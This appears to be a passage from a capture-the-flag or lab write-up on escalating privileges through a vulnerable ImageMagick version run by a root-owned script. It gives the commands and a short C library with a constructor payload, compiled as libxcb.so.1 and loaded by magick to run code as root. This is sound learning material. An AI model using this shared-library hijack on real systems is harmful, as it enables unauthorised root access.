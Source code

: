 <figure><img src="../../.gitbook/assets/image (857).png" alt=""><figcaption></figcaption></figure>

***

* I was curious if the use of this tool could be leveraged for the escalation, so I searched the web for possible vulnerabilities. I found an interesting [repository](https://github.com/ImageMagick/ImageMagick/security/advisories/GHSA-8rxc-922v-phg8) with an RCE vulnerability for a recent version of the tool. To confirm it will apply in that situation, I looked for the version of this tool on the system, and that the script was owned by the _root_ user. I confirmed that it was a vulnerable version, and the file was owned by the target user, so I could exploit it

<figure><img src="../../.gitbook/assets/image (56).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (858).png" alt=""><figcaption></figcaption></figure>

***

* So I went to the folder where the script was going to act and based on the repository created a _C_ script with a test payload using the `sudo id` command. Then I compiled it as the _libxcb.so.1_ library that _Magick_ was about to use and ran the _magick_ command in the same form as the script. I got a notification about the user not being in the sudoers file, but confirmed it worked by looking at the _metadata.log,_ where the results were supposed to be saved, having RCE as the _root_ user

{% code overflow="wrap" lineNumbers="true" %}
```bash
nano test.c
gcc test.c -fPIC -shared -o libxcb.so.1 -nostartfiles
magick identify entertainment.jpg
cat metadata.log
```
{% endcode %}

{% code title="test.c" overflow="wrap" lineNumbers="true" %}
```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

__attribute__((constructor)) void init(){
    system("sudo id");
    exit(0);
}
```
{% endcode %}
